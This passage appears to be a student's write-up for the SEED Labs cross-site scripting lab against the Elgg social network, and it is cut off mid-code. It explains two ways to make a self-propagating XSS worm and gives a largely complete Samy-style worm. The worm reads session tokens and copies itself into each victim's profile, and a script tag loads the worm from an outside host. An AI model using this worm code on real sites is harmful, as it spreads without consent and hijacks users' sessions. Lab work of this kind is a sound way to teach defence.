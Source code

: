 ### Link Approach

If the worm is included using the `src` attribute in the `<script>` tag,
writing self-propagating worms is much easier. We have discussed the
`src` attribute in Task 1, and an example is given below. The worm can
simply copy the following `<script>` tag to the victim's profile,
essentially infecting the profile with the same worm.

```html
<script type="text/javascript">
    src="http://www.example.com/xss_worm.js">
</script>
```

### DOM Approach

If the entire JavaScript program (i.e., the worm) is embedded in the infected profile, to propagate the worm to another profile, the worm code can use DOM APIs to retrieve a copy of itself from the web page. An example of using DOM APIs is given below. This code gets a copy of itself, and displays it in an alert window:

```html
<script type="text/javascript" id="worm">
    var headerTag = "<script type=\"text/javascript\" id=\"worm\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";

    // Put all the pieces together, and apply the URI encoding
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

    ...
</script>
```


```html
<!-- PUT ALL THESE TOGETHER! -->
<script type="text/javascript" id="worm">
    window.onload = function(){
        // prepare a warm
        var headerTag = "<script type=\"text/javascript\" id=\"worm\">";
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>";
        var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
        var name="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the content of your url.
        // var attackerGuid=...     //FILL IN
        // var sendurl=...;         //FILL IN
        // var desc=...'            //FILL IN
        // var content=...;         //FILL IN
        var attackerGuid=59;        // use “edit profile” to get your guid
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        // set the content of the description field and access level
        // ！！！！！ remember to add semicolon in the end of each line
        var desc="&description=Samy is my hero!";
        desc+=wormCode // append a worm into the description
        desc+="&accesslevel[description]=2";
        var content=token + ts + name + desc + guid;
```